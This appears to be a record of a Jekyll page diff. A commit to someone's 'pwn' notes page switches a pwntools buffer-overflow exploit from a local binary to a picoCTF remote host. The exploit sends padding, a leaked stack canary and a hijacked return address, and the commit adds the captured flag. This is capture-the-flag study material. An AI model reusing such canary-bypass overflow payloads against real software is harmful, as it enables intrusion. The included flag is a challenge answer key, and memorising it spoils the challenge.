

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 11430 px. Shown: the top 874 px of the window, without its empty margins (4-741 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 12276 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -494,9 +494,11 @@ def get_canary():
 canary = get_canary()
 print(canary)
 
-io = process("./vuln")
+#io = process("./vuln")
+io = remote("saturn.picoctf.net", 54767)
 io.sendlineafter(b"> ", b"100")
 io.sendlineafter(b"> ", b'A'*64 + canary + b'B'*16 + p32(0x8049336))
 print(io.read())
-
+print(io.read())
+# picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}
 ```
````
